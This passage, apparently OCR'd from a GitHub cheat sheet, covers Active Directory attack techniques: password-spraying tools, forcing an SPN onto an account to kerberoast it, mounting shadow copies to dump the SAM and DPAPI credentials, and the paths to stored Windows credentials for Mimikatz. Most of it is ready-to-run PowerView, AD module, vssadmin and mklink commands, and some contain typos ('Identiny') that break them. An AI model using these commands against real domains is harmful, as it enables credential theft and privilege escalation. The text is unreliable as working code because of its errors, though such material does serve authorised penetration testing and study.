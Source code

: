 If we have harvest some passwords by compromising a user account, we can use this method to try and exploit password reuse on other domain accounts.

**Tools:**

- [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
- [Invoke-CleverSpray](https://github.com/wavestone-cdt/Invoke-CleverSpray)
- [Spray](https://github.com/Greenwolf/Spray)

### Force Set SPN

*WUT IS DIS ?: If we have enough permissions -> GenericAll/GenericWrite we can set a SPN on a target account, request a TGS, then grab its blob and bruteforce it.*

- PowerView:
- #Check for interesting permissions on accounts:
- Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
- 
- #Check if current user has already an SPN setted:
- Get-DomainUser -Identity <UserName> | select serviceprincipalname
- 
- #Force set the SPN on the account:

Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}

- AD Module:
- #Check if current user has already an SPN setted
- Get-ADUser -Identity <UserName> -Properties ServicePrincipalName | select ServicePrincipalName
- 
- #Force set the SPN on the account:

Set-ADUser -Identiny <UserName> -ServicePrincipalNames @{Add='ops/whatever1'}

Finally use any tool from before to grab the hash and kerberoast it!

### Abusing Shadow Copies

If you have local administrator access on a machine try to list shadow copies, it's an easy way for Domain Escalation.

#List shadow copies using vssadmin (Needs Admnistrator Access) vssadmin list shadows

#List shadow copies using diskshadow diskshadow list shadows all

#Make a symlink to the shadow copy and access it mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\

1. You can dump the backuped SAM database and harvest credentials.
2. Look for DPAPI stored creds and decrypt them.
3. Access backuped sensitive files.

### List and Decrypt Stored Credentials using Mimikatz

Usually encrypted credentials are stored in:

- %appdata%\Microsoft\Credentials
- %localappdata%\Microsoft\Credentials

